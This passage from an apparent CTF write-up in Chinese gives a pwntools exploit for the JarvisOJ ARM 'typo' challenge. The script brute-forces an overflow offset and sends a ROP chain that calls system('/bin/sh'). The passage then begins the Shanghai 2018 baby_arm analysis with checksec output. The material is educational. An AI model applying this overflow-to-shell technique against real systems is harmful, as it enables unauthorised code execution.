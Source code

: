 ```
# -*- coding: utf-8 -*-

from pwn import *
import sys
import pdb
#  context.log_level = "debug"

#  for i in range(100, 150)[::-1]:
for i in range(112, 123):
    if sys.argv[1] == "l":
        io = process("./typo", timeout = 2)
    elif sys.argv[1] == "d":
        io = process(["qemu-arm", "-g", "1234", "./typo"])
    else:
        io = remote("pwn2.jarvisoj.com", 9888, timeout = 2)
    
    io.sendafter("quit\n", "\n")
    io.recvline()
    
    '''
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh
    Strings information
    ============================================================
    0x0006c384 : /bin/sh
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop|ret" | grep r0
    0x00020904 : pop {r0, r4, pc}
    '''
    
    payload = 'a' * i + p32(0x20904) + p32(0x6c384) * 2 + p32(0x110B4)
    success(i)
    io.sendlineafter("\n", payload)

    #  pause()
    try:
        #  pdb.set_trace()
        io.sendline("echo aaaa")
        io.recvuntil("aaaa", timeout = 1)
    except EOFError:
        io.close()
        continue
    else:
        io.interactive()
```

## 2018 上海市大学生网络安全大赛 - baby_arm

### 静态分析

题目给了一个 `aarch64` 架构的文件，没有开 canary 保护
```bash
Shanghai2018_baby_arm [master] check ./pwn
+ file ./pwn
./pwn: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, BuildID[sha1]=e988eaee79fd41139699d813eac0c375dbddba43, stripped
+ checksec ./pwn
[*] '/home/m4x/pwn_repo/Shanghai2018_baby_arm/pwn'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```